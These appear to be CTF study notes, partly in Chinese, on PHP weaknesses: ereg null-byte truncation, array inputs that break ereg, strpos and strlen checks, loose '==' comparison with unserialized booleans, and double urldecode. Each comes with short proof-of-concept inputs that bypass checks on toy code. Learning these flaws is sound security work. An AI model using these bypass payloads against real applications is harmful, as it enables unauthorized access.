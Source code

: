 # php match

## ereg

* example

'''php
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE){
	echo '<p>You password must be alphanumeric</p>';
}
else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999){
    if (strpos ($_GET['password'], '*-*') !== FALSE){
        die('Flag: ' . $flag);
    }
}
    
'''

* poc 1

'''
url: ...?password=1e9%00*-*
'''
此处利用 **ereg 经典漏洞**，读到 ** %00 ** 就截止了

* poc 2

'''
url: ...?password[]=s
''' 

**传入数组**
ereg 返回** NULL** ，NULL !== FALSE is true
strpos 处理数组，也返回 ** NULL **
strlen 处理数组，同样返回 **NULL**

**比较**
null 和 任何其他任何类型，比较，转换为 bool， FALSE < TRUE
array 和  任何其他类型（不包括 object）， 比较， array 总是更大


## loose comparison(== operator) 

* example

’‘’php
$flag='ctf_flag';
$unserialize_str = $_POST['password'];
$data_unserialize = unserialize($unserialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

user, pass 的值是未知的，条件判断时使 $data_unserialize['user']=true ， $data_unserialize['pass']=true 即可

* poc

'''php
$arr =  array();
$arr['user']=TRUE;
$arr['pass']=TRUE;
$seialize_str = serialize($arr);    //a:2:{s:4:"user";b:1;s:4:"pass";b:1;}
$flag='ctf_flag';
$data_unserialize = unserialize($serialize_str);
if($data_unserialize['user'] == '???' && $data_unserialize['pass']=='???')
{
    print_r($flag);
}
'''

## urldecode

urldecode 与 $_GET[] $_POST[] $_REQEST[] 联合使用
$_GET[] $_POST[] $_REQEST[] 返回的参数是**已经被解码了**的，在进行 urldecode 相当于 二次 urldecode

* poc

'''php
$username = $_GET['username'];  //url: ...?username=%2561dmin   %61 is a
if (urldecode($username) === "admin"){
    echo "you are admin";
}
'''